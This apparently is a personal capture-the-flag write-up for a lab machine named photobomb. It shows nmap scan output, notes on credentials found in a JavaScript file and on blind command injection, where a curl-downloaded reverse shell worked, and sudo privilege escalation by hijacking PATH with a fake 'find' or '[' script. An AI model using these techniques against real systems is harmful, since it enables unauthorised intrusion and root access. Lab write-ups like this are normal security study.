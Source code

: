 #setenv #blind-os-command-injection
```shell
nmap -sC -sV -oN scan.txt 10.129.228.60 -T5
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-09 04:55 CST
Nmap scan report for 10.129.228.60
Host is up (0.0019s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

# Found a link on a js file that contains credentials of a webpage
![[Pasted image 20250210101841.png]]

# download function was vulnerable to blind shell injection, tried multiple payload, like using base64 encoded shell, then running it on bash, doesn't work
# The payload that works was a curl command that downloads a reverse shell binary then executed it on bash 
![[Pasted image 20250210101933.png]]

# the user has sudo privilege that can modify env variable while running /opt/cleanup,sh, I added an executable that will invoke a reverse shell on /dev/shm as 'find' 

```shell
sudo PATH=/dev/shm:$PATH /opt/cleanup.sh


```

```shell
#!/bin/bash

bash 
```


# the other way to exploit it is thru adding an executable named [

# the second line on the /opt/cleanup.sh triggers the 'enable -n [ # ]' command which enables executing a file with a name '[' ']'

# same thing, I added a file named '[' on /dev/shm then executed the bash file

# inside the cleanup.sh was an if statement that uses square braces that triggers the privesc
